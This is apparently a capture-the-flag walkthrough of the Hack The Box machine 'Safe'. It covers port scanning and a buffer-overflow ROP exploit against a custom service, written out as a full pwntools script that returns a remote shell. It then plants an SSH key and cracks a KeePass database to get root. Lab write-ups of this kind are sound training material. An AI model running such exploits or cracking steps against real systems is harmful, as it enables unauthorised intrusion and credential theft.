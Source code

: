 # Hack The Box - Safe

![](Images/safe.png)



### <u>Port Scan</u>

We will start with a **nmap** to scan for open ports with the following command:

```
~$ nmap -sC -sV -p- 10.10.10.147
```

![](Images/1.png)



The server has 3 open ports:

1. Apache Web Server -> 80

2. OpenSSH Server -> 22

3. 1337 -> Custom application

   

### <u>Web Enumeration</u>

When we enter in the web application we see the default Debian Apache webpage but in the source code there is a comment with a hint that indicates that we can download the application that is running on port 1337 if we visit ***/myapp***.

![](Images/2.png)

![](Images/3.png)



### <u>Custom Application Analysis: myapp</u>

After downloading the application running on port 1337, we will analyze it to find any vulnerabilities that could compromise the server.

**Myapp****** is a 64 bits application, dynamically linked and with no symbols stripped.

![](Images/4.png)



Seeing that the application returns the same string that we sent the first thing we could think is that the application is vulnerable to format string, but resulted not be vulnerable to format string vulnerability because after sending **%x** the application did not leak any memory address.

![](Images/5.png)

![](Images/6.png)



The next step was to check if the application is vulnerable to buffer overflow sending a long payload.

![](Images/7.png)



After check that the application is vulnerable to buffer overflow we are going to check if the binary has been compiled with any protection. **Myapp** has NX protection enabled so we need to do a ROP chain in oder to exploit this program because the stack is not executable.

![](Images/8.png)



### <u>Exploit Development</u>

1. **Calculate offset**:
   We need to create a pattern in order to calculate how many bytes we need to send to overwrite the **rip** register.

   ![](Images/9.png)

   

   We can control the program flow if we send 120 bytes.

   ![](Images/10.png)

   

2. **Generate ROP chain:**

   We are going to create a ROP chain that writes at **.bss** section a string and then we are going to call system function with that string in order to execute commands.

   First we will search a "pop rdi; ret" gadget.

   ```bash
   ~$ ropper -f myapp > gadgets.txt
   ~$ grep "pop rdi" gadgets.txt
   ```

   ![](Images/11.png)
   
   

   Then we will search in which memory position is the **.bss** section

   ![](Images/12.png)


   We will create the following script using **pwntools** to write in **.bss** the command we want to execute and then we will pass the memory address in which our string is stored to the function system

   ```python
   from pwn import *
   
   elf  = ELF('./myapp')
   context.terminal = ['tmux', 'sp', '-h']
   context.log_level = 'DEBUG'
   
   io= remote("10.10.10.147",1337)
   
   payload = flat(
               'A'*120,
               0x40120b,           # 0x000000000040120b : pop rdi ; ret
               0x404058,           #.bss
               elf.sym['gets'],
   	        0x40120b,                # 0x000000000040120b : pop rdi ; ret
               0x404058,             #.bss
               elf.sym['system'],
               endianness = 'little', word_size = 64, sign = False)
   io.recvline()
   io.sendline(payload)
   io.interactive()
   
   ```

   

3. **Execute Exploit:**

   We can execute any command but the program will finish after that, to avoid that we will execute "***/bin/bash***" in order to get a shell.
   ![](Images/13.png)

   

   

### <u>Privilege Escalation</u>

We decide to write out public key at "***/home/user/.ssh/authorized_keys***" to enter by SSH.

![](Images/14.png)

![](Images/15.png)



There are some interesting files in the user home, one Keepass database and six images files.

![](Images/16.png)



We decided to download those files and then try to crack the Keepass database, but without success.

![](Images/17.png)



After researching we discovered that it is possible to use a keyfile+password in a keepass database.

We can use keepass2john to generate a hash in order to crack the keepass database.

```bash
~$ keepass2john -k IMG* MyPasswords.kdbx >> Safe_Keepass_Keyfiles.txt
```

![](Images/18.png)



We cracked the hash so we can access to **MyPasswords** database using IMG_547.jpg as keyfile and **bullshit** as password in order to obtain the root password.

![](Images/19.png)



We use the password obtained in the keepass file to become root and obtain the root flag.

![](Images/20.png)

